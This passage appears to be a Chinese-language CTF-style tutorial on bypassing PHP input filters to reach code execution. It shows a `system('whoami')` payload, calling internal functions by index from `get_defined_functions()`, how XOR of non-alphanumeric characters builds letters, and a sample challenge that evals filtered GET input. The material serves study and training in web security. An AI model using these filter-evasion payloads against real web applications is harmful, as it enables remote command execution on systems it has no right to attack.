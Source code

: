```php
cmd=system('whoami');
```

## 内置函数访问绕过

```php
php -r 'print_r(get_defined_functions()); | findstr "system"'
    
POST:cmd=get_defined_functions()[internal][358](whoami);
```

## 异或绕过

在PHP中两个字符串异或之后，得到的还是一个字符串。
例如：我们异或 `?` 和 `~` 之后得到的是 `A`

```php
PS D:\phpStudy\PHPTutorial\php\php-5.4.45> .\php.exe -r "echo '?'^'~'; "
A
PS D:\phpStudy\PHPTutorial\php\php-5.4.45>
```

异或规则:

```php
字符：?         ASCII码：63           二进制：  00‭11 1111‬
字符：~         ASCII码：126          二进制：  0111 1110‬
异或规则：
1   XOR   0   =   1
0   XOR   1   =   1
0   XOR   0   =   0
1   XOR   1   =   0
上述两个字符异或得到 二进制：  0100 0001
该二进制的十进制也就是：65
对应的ASCII码是：A

>>> int('1000001',2)
65
>>>
```

### 例题:

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(preg_match('/[a-z0-9]/is', $_GET['shell'])){
	echo "hacker!!";
}else{
	eval($_GET['shell']);
}
?>
```

